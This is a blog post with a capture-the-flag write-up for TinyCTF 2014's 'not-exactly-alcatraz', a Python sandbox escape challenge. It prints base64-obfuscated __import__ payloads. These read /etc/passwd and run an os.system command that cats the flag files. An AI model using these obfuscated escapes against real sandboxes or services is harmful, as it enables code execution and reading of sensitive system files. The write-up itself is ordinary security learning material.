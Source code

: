 ```yaml
---
layout: post
title: TinyCTF - not-exactly-alcatraz
categories:
- CTF
tags: [ctf]
status: publish
type: post
published: true
meta:
  _edit_last: '1'
  pw_single_layout: '1'
---
```


Content found at: [Tiny CTF 2014 write-ups](https://github.com/ctfs/write-ups/tree/master/tinyctf-2014/not-exactly-alcatraz "TinyCTF 2014 write-ups")

Extract the provided [stego100.zip](https://github.com/ctfs/write-ups/raw/master/tinyctf-2014/not-exactly-alcatraz/pwn200.zip) file:

Un-zip [the provided `pwn200.zip` file](pwn200.zip):

{% highlight bash linenos %}
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
{% endhighlight %}

The extracted `pwn200` file is a Python script.

{% highlight bash linenos %}
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
baby@sics:~$
open('/home/pybaby/flag.txt')
...
...
...

{% endhighlight %}

Well, we can't do anything 'normal' time for some 'exotic' code (-;

{% highlight bash linenos %}
# Well, let's try to import a library:
# X19pbXBvcnRfXw== is __import__ 
# c2h1dGls is shutil
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# Doing so on our local box

python pwn200
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# BOOM! The password file... Okay, so this should work right?!

Nope... A socket dup'd fd doesn't like to be used like this...so back to the drawing board...

# Well, let's try to import a library again and use a system command:
# X19pbXBvcnRfXw== is __import__
# b3M= is os
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system("cat /home/pybaby/*.txt")

MONEY!!!

{% endhighlight %}

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.
